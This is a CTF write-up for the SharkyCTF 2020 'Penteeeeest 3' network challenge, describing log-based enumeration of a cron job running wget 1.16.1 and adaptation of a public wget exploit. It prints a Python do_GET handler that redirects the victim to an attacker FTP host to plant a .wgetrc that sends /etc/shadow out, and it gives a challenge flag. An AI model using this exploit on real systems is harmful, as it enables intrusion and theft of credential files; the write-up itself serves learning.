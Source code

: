 
The flag of Penteeeeest 2 is: shkCTF{w0w_y0u'r3_4_Tru3_h4ck3r_b4c2679666641be61feb6919e83f2777}

> ![](https://i.imgur.com/ZjFN2aB.jpg)


# SharkyCTF 2020 - [Network] Penteeeeest 3 (400pts)<a name="ThirdChall"></a>

## Description<a name="Description3"></a>

I think there is still something going on here...

Creator: Magnussen / Nofix

## Post Exploitation<a name="PostExploitation"></a>

### Enumeration<a name="PostExpEnum"></a>

At this step, i was asking myself "What i need to do more to get a flag?", then i remembered the second host "172.30.0.3".

So i was thinking about pivoting, and if there is something i learned through my OSCP journey it's:
> In post-exploitation, allway read logs, and especially, the apache logs.

So i go to "/var/log/apache2" and started to read "access.log" file.

> ![](https://i.imgur.com/U3xXxBT.png)

> ![](https://i.imgur.com/4HHfeNb.png)

And i see something really interesting:

- The host "172.30.0.3" has a cron task, which make HEAD request against the backup zip.
- If the HEAD request, detect a change on the backup.zip, it will make a GET request on it.
- It make thoses request using "wget 1.16.1"

Searching a bit on google and i find an exploit in [exploitdb](https://www.exploit-db.com/exploits/40064) and [GitHub](https://raw.githubusercontent.com/xl7dev/Exploit/master/Wget/wget-exploit.py).

### Exploit Modification<a name="ExploitModification"></a>

I can see in the following part of code, the function "do_GET". It's waiting for a GET request to upload a malicious ".wgetrc" file which will post the "/etc/shadow" file to me.

```
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

```
As the cron task of my target send many "HEAD" request, i added after the "do_GET" function, a "do_HEAD" function.

